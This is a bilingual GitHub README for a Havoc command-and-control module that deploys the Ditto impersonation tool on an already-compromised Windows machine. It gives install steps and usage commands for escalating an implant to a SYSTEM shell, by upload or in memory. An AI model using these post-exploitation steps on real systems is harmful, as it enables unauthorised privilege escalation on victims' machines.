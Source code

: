 # Havoc_impersonate

**language**
1. [EN](#en)
2. [FR](#fr)

## EN

1. [Description](#description)
2. [Installation](#installation)
3. [Usage-guide](#usage-guide)
    1. [Prerequisites](#prerequisites)
    2. [type-upload](#upload)
        - [set-Executable-local-file](#step-1)
        - [use-module](#step-2)
    3. [type-memory](#in-memory)
        - [set-Executable-local-file](#step-1-1)
        - [use-module](#step-2-1)


### Description

The Havoc_impersonate module directly integrates impersonation functionality into Havoc.

This script utilizes three binary files. Two of these files are copies of objects from the NoConsoolation module. The third file is Ditto.exe, which performs the impersonation. We thank @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repository.

This module allows uploading Ditto.exe (or another file) to the target machine or executing the executable directly in memory.

### Installation

1. Install Python dependencies:
```bash
pip install argparse 
```

2. Clone the repository:
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After cloning, open your Havoc client.

3. Click on the "Script" tab and open the script manager window.

4. Click "Load Script", choose the impersonnate.py file, and open it.

A line will appear in the script manager tab, indicating that the script has been loaded into Havoc.

### Usage Guide
#### Prerequisites

You must have infected your target and have a privileged account before using this module.

#### Upload
##### Step 1

This command is used to set the local file to be uploaded to your target. The uploaded file take your id session havoc to name it.

```
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Step 2

**To obtain a system shell:**

```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

**To execute a custom command for Ditto or other executble:**
!!! Warning !!!
the option -h or --help was interprete by havoc and craching my module

```
Ditto-upload Exec help
```

#### In Memory
##### Step 1

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Step 2

**To obtain a system shell:**

```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

**To execute a custom command for Ditto:**
!!! Warning !!!
the option -h or --help was interprete by havoc and craching my module

```
Ditto-Memory Exec help
```


## FR

1. [Description](#description-1)
2. [Installation](#installation-1)
3. [guide-utilisation](#guide-dutilisation)
    1. [préréquis](#prérequis)
    2. [Mode-upload](#upload-1)
        - [Définir-Executable-locale](#étape-1)
        - [utilisation-du-module](#étape-2)
    3. [Mode-en-mêmoire](#en-mémoire)
        - [Définir-Executable-locale](#étape-1-1)
        - [utilisation-du-module](#étape-2-1)

### Description

Le module Havoc_impersonnate intègre directement la fonctionnalité d'usurpation d'identité dans Havoc.

Le script utilise trois fichiers binaires. Deux de ces fichiers sont des copies d'objets provenant du module NoConsoolation. Le troisième fichier est Ditto.exe, qui effectue l'usurpation d'identité. Nous remercions @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) pour son dépôt.

Ce module permet de télécharger Ditto.exe (ou un autre fichier) sur la machine cible ou d'exécuter directement l'exécutable en mémoire.

### Installation

1. Installez les dépendances Python :
```bash
pip install argparse 
```

2. Clonez le dépôt :
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

Après le clonage, ouvrez votre client Havoc.

3. Cliquez sur l'onglet "Script" et ouvrez la fenêtre du gestionnaire de scripts.

4. Cliquez sur "Load Script", choisissez le fichier impersonnate.py et ouvrez-le.

Une ligne apparaîtra dans l'onglet du gestionnaire de scripts, indiquant que le script a été chargé dans Havoc.

### Guide d'utilisation
#### Prérequis

Vous devez avoir infecté votre cible et disposer d'un compte privilégié avant d'utiliser ce module.

#### Upload
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. Le fichier uploader prendra le nom de votre session Havoc.

```
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Étape 2

**Pour obtenir un shell système :**
```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

**Pour exécuter une commande personnalisée pour Ditto :**
```
Ditto-upload Exec help
```

#### En mémoire
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. L'upload nécessite l'ID de votre session.

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Étape 2

Pour obtenir un shell système :
```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Pour exécuter une commande personnalisée pour Ditto :
```
Ditto-Memory Exec help
```